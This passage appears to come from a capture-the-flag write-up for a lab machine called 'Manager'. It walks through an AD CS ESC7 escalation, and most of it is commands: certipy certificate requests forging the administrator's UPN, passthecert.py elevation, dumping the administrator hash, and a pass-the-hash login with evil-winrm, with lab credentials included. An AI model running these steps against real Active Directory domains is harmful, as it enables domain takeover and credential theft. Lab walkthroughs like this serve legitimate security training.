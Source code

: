 ```bash
# NOTE THE request id
certipy req -username raven@mamager.local -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target 10.10.11.236 -template SubCA -upn administrator@manager.htb

#request with the ca command and the -issue-request <request ID> parameter.
certipy ca -ca 'manager-DC01-CA' -issue-request <request ID> -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'

#we can retrieve the issued certificate
certipy req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target 10.10.11.236 -retrieve <Request ID>
```

Passthecert (Python) which can be used to conduct multiple techniques like elevate a user for DCsync or change password for a specific user.

```bash
ertipy cert -pfx "administrator.pfx" -nokey -out "user.crt"

certipy cert -pfx "administrator.pfx" -nocert -out "user.key"

passthecert.py -action modify_user -crt "user.crt" -key "user.key" -domain "manager.htb" -dc-ip "10.10.11.236" -target "raven" -elevate
```

You can try to authenticed on the DC with certipy and dump the administrator hash : 

```xml
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.236 -username administrator -domain manager.htb
```

![Untitled](assets/Manager/Admin-hash.png)

PS if you have a probleme with kerberos clock use ntpdate : `ntpdate -u domain`

You can now use pass the hash technique to authenticate on the DC ! 

`evil-winrm -u "Administrator" -H 'ae5064c2f62317332c88629e025924ef' -i "10.10.11.236”`

Lets GOOOO manager Pwned ! 😼

**Sources for Foothold :** 

- https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server
- https://exploit-notes.hdks.org/exploit/database/mssql-pentesting/

**Sources for Privesc :** 

- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#attack-2
- https://www.thehacker.recipes/ad/movement/ad-cs/access-controls#certificate-authority-esc7
